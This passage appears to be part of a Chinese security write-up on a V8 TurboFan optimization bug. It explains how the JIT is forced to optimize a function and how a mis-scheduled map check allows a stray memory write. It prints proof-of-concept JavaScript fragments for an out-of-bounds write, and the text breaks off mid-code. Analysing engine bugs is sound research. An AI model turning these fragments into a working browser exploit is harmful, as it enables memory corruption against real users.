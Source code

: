 ```
// crash
alert("crash writing to offset 0x41414141");
arr[0x41414141] = 1.1;
```

首先我推荐各位先看前面TurboFan的讲解，或者自行搜索，先对TurboFan的工作方式有所了解。

我们触发函数优化的方式有两种：

• 多次调用同一函数。

• 用%OptimizeFunctionOnNextCall(f)指定优化此函数。

```
//为优化做准备，确保JSFunction有FeedbackVector等相关的结构
% PrepareFunctionForOptimization(f);
//调用一次，确保有type feedeback
f();
//强制优化函数，在下次调用时
% OptimizeFunctionOnNextCall(f);
//调用，优化
f();
```

对于TurboFan来说优化此函数会根据之前的调用参数来假设他下次调用的参数类型，但是由于下次参数类型不一定和上次一致，所以内置有检查，看类型是否和预期的一致。

就像上面的poc，前面多次调用同一函数，传的参数都是class A或B。

```
// this may optimize and deopt, that's fine
for (i = 0; i &lt; 20000; i++) `{`
    f(A, 0);
    f(B, 0);
`}`
// this will optimize it and it won't deopt
// this loop needs to be less than the previous one
for (i = 0; i &lt; 10000; i++) `{`
    f(A, 41);
    f(B, 41);
`}`
```

可以看到第二次循环，TurboFan基于多次调用的反馈，做出了调用参数的假设。

[![](https://p4.ssl.qhimg.com/t0181cf728696dbf9e4.jpg)](https://p4.ssl.qhimg.com/t0181cf728696dbf9e4.jpg)

这分别是A和B的排布，可以看到其elements和properties指向的地址一样，这大概就是上面第二次循环时会进行优化且不会破坏优化结果的原因，猜测在check map之前这两变量会被认为是同一类。

也就是说，经过优化，他现在已经默认函数调用的参数排布是上面那种对象了，那么我们此时如果用其他类型变量调用这一函数，按理来说经过check map时会被发现参数不对，然后就会把优化破坏掉，但是由于前面ternimate节点错误的转换为throw节点，导致有些指令被错误的调度。在check map之前还会当作以前预测的类来处理时，向内对应偏移处写入了一个值，就是poc中的。

```
function f(arg1, arg2) `{`
    if (arg2 == 41) `{`
        return 5;
    `}`
    var int8arr = new Int8Array(10);
    var z = arg1.x;
    // new arr length
    arg1.val = -1; //===============这里
    int8arr[1500000000] = 22;
    async
    function f2() `{`
        const nothing = `{``}`;
        while (1) `{`
            //print("in loop");
            if (abc1 | abc2) `{`
                while (nothing) `{`
```